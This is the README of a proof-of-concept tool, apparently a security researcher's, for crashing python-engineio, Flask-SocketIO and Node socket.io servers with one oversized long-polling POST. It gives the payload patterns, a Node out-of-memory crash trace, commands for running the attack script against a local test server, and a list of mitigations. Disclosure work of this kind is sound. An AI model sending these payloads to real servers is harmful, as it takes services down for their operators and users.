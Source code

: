 # kill-engine-io
DoS [python-engineio](https://github.com/miguelgrinberg/python-engineio) / [python-socketio](https://github.com/miguelgrinberg/python-socketio) / [Flask-SocketIO](https://github.com/miguelgrinberg/Flask-SocketIO) via the long polling transport with a single POST request. Also nodejs [socket.io-parser](https://github.com/socketio/socket.io-parser) can be DoSed via the same transport.

By default engineio's `max_http_buffer_size` is set to [1e8 = 100MB](https://github.com/miguelgrinberg/python-engineio/blob/bb2401354c3b7c3cf6a5577db83cc51ae071836e/engineio/server.py#L84) bytes.
This is the maximum size of a request to the long polling transport.
The comment at [payload.py](https://github.com/miguelgrinberg/python-engineio/blob/bb2401354c3b7c3cf6a5577db83cc51ae071836e/engineio/payload.py#L65)
alludes to a DoS vulnerability.

```
                # extracting the packet out of the payload is extremely
                # inefficient, because the payload needs to be treated as
                # binary, but the non-binary packets have to be parsed as
                # unicode. Luckily this complication only applies to long
                # polling, as the websocket transport sends packets
                # individually wrapped.
```

kill_socket_io.py sends a large payload which tries to abuse this code path
and cause the server to hang on full CPU usage.

The payload contains many small packets (processing is O(n^2) in number of packets).
See [my commit message](https://github.com/bcaller/kill-engine-io/commit/bd5f433335a45ecf1766cc462d0571a56d8f8b4f)
for explanation of non-ASCII character to abuse `encoded_payload.decode('utf-8', errors='ignore')` in versions 3.9.3 and below.

Payload: `2:4¼2:4¼2:4¼2:4¼2:4¼2:4¼...`

Versions above 3.9.3 don't use `errors='ignore'` so we don't put non-ASCII characters in.

Payload `many_tiny_packets`: `2:422:422:422:422:422:42...`

From 3.10.0, the number of packets in a payload was capped at 16 (non-configurable) as a response to my vulnerability report.
An alternative is to send one giant packet with an integer payload:

Payload `giant_packet`: `99999991:42222222222222222222...`

which abuses the socketio protocol [see python-socketio](https://github.com/miguelgrinberg/python-socketio/blob/a839a36fa0fa7f0e5d8976ff47b217f6b1e8a44b/socketio/packet.py#L109).

## NodeJS specifics

The NodeJS implementation of [engineio-parser](https://github.com/socketio/engine.io-parser) appears much faster and less easy to DoS. Node implementations have non-hexadecimal characters in the session id, so you should be able to instantly see if the server is python backed or not.

While faster, the NodeJS implementation can actually be OOMed with the node process exitting with error `FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory`. With NodeJS, if the ping timeout (default 30s) is exceeded then the processing appears to be cancelled. Therefore, sending a payload which is so large it doesn't reach the memory exhausting step within the ping timeout will not kill the process. It will just waste CPU for 30 seconds. Sending a slightly smaller payload (5e7 worked for me) caused the process to exit.

```
==== JS stack trace =========================================

    0: ExitFrame [pc: 0x5fafab4fc5d]
    1: StubFrame [pc: 0x5fafab50fca]
Security context: 0x3878b7d1d971 <JSObject>
    2: decodeString [0x3bee6a8562b1] [/engineio-test/node_modules/socket.io-parser/index.js:~276] [pc=0x5fafabfaf7e](this=0x21aef10845b1 <JSGlobal Object>,0x1dfe93882e59 <Very long string[49999990]>)
    3: /* anonymous */ [0x3deb4ecca739] [/engineio-test/node_modules/socket.io-parser/index.js:242...

FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory

Writing Node.js report to file: report.20191002.184025.9877.001.json
Node.js report completed
 1: 0x953b10 node::Abort() [node]
 2: 0x9547f4 node::OnFatalError(char const*, char const*) [node]
 3: 0xb32bee v8::Utils::ReportOOMFailure(v8::internal::Isolate*, char const*, bool) [node]
 4: 0xb32e24 v8::internal::V8::FatalProcessOutOfMemory(v8::internal::Isolate*, char const*, bool) [node]
 5: 0xf32452  [node]
 6: 0xf32558 v8::internal::Heap::CheckIneffectiveMarkCompact(unsigned long, double) [node]
 7: 0xf3ec78 v8::internal::Heap::PerformGarbageCollection(v8::internal::GarbageCollector, v8::GCCallbackFlags) [node]
 8: 0xf3f78b v8::internal::Heap::CollectGarbage(v8::internal::AllocationSpace, v8::internal::GarbageCollectionReason, v8::GCCallbackFlags) [node]
 9: 0xf424c1 v8::internal::Heap::AllocateRawWithRetryOrFail(int, v8::internal::AllocationSpace, v8::internal::AllocationAlignment) [node]
10: 0xf0c6f4 v8::internal::Factory::NewFillerObject(int, bool, v8::internal::AllocationSpace) [node]
11: 0x11c2b3e v8::internal::Runtime_AllocateInNewSpace(int, v8::internal::Object**, v8::internal::Isolate*) [node]
12: 0x5fafab4fc5d 
[1]    9877 abort (core dumped)  node serve.js
```

With `many_tiny_packets`, the node process OOMs because of [a 2016 change to socket.io](https://github.com/socketio/socket.io/commit/e60bd5a4da9173acba7553c9e631b79770a8c8be) so that while extracting message packets from a payload, each packet is queued up with a nice closure waiting in a `FixedCircularBuffer` for the next tick before the packet handlers can run. Of course, the next tick doesn't come until after every packet has been queued.

With `many_heartbeats` (`1:21:21:21:21:21:21:21:21:2...`), each ping causes the server to create a pong packet object and add it to a buffer array. These buffered pong responses and their handling cause the OOM.

The `giant_packet` payload attacks [look up id](https://github.com/socketio/socket.io-parser/blob/652402a8568c2138da3c27c96756b32efca6c4bf/index.js#L314).

## Run

### Test server

#### Python

```bash
python3.7 -m venv .env || virtualenv -p `which python3` .env
.env/bin/activate
pip install Flask-SocketIO
# pip install eventlet  # Optional
python serve.py 2>/dev/null
```
With eventlet, a single payload appears to DoS the entire server until processing completes.
Without eventlet, the non-production server remains responsive until the thread pool is exhausted as it launches actual threads.

#### Node

```bash
npm install socket.io
node serve.js
# DEBUG=socket.io* node serve.js  # as an alternative
```
or
```bash
docker build -t socketio -f Dockerfile.node-server .
docker run --rm -p 5000:5000 socketio
```

### Send payload

Send payload using code in kill_socket_io.py.

```bash
python3.7 -m venv .env || virtualenv -p `which python3` .env
.env/bin/activate
pip install requests
python -i kill_socket_io.py  # Start interactive session
```
or
```bash
docker build -t kill-socket-io -f Dockerfile.kill-socket-io .
docker run --rm --network=host -it kill-socket-io
```


Within the interactive console you can run commands like:
```python
x()  # Just saves typing!
attack('http://127.0.0.1:5000', make_payload=many_tiny_packets)
oom_nodejs_all()
oom_nodejs(make_payload=many_heartbeats)
oom_nodejs(make_payload=giant_packet)
```

OR use the CLI:

```
python kill_socket_io.py -h
```

## Survival

* Use SockJS instead of SocketIO
* Set `max_http_buffer_size` to a sensible value
* Improve library performance
* Restrict number of packets per payload (done in python-engineio v3.10.0+, doesn't protect from `giant_packet`)
